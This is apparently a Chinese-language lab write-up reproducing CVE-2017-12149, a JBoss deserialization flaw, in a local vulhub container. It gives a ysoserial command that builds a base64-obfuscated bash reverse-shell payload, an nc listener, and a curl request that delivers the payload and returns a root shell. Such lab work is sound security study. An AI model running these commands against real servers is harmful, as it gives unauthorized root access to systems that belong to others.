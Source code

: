 # CVE-2017-12149

漏洞环境搭建，下在vulhub，cd到对应的目录执行以下命令

{% embed url="https://github.com/vulhub/vulhub" %}

```
docker-compose up -d
```

好了访问目标8080端口

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

访问/invoker/readonly这个路径相应500，说明存在漏洞

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

漏洞利用环境准备，下载ysoserial用来生成利用链

{% embed url="https://github.com/frohoff/ysoserial.git" %}

执行以下命令生产POC

```
┌──(root㉿kali)-[~/Desktop/tool/jdk1.8.0_202/bin]
└─# ./java -jar ../../Deserialization/ysoserial/target/ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEyOS85OTkyIDA+JjE=}|{base64,-d}|{bash,-i}" > /root/Desktop/test/poc.ser
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

nc开启监听

```
nc -lnvp 9992
```

通过burp发送poc没有没有返回shell

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

通过curl发送该poc

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl http://192.168.23.132:8080/invoker/readonly --data-binary @poc.ser
```

监听端口返回一个shell

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9992
listening on [any] 9992 ...
connect to [192.168.23.129] from (UNKNOWN) [192.168.23.132] 42670
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@81b0d810cbbf:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

